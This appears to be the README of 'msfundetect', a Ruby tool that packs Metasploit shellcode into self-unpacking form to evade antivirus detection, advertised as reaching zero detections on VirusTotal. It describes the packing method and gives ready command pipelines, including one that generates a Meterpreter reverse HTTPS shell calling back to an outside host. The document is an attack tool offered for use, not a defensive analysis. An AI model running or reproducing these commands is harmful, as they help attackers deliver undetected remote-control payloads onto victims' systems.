 msfundetect
===========

Msfundetect is a ruby script that undetects payloads and it can be used smoothly with msfpayload for getting 0/54 detections in virustotal.

usage: msfundetect <payload>

explanation:
Msfundetect is based in "hyperion" packer (by Ammann, 2012, http://nullsecurity.net/papers/nullsec-pe-crypter.pdf).
Instead of using hyperion's original approach of bruteforcing an AES key in order to decrypt the payload, msfundetect bruteforces the entire payload using an optimized crc16, which generates a self unpacking shellcode containing the crc16 hashing function and the crc16 hashed payload.

advantages:
Msfundetect generates undetectable standalone shellcode (which may be used in buffer-overflow, use-after-free attacks).
It also has the option to make an executable, which is also undetectable.





examples:

msfpayload windows/meterpreter/reverse_https lhost=55.55.55.55 lport=55 r | msfencode -e x86/alphamixed bufferregister=eax -t raw | msfundetect x

msfpayload windows/exec cmd=calc r | msfencode -e x86/alphamixed bufferregister=eax -t raw | msfundetect c
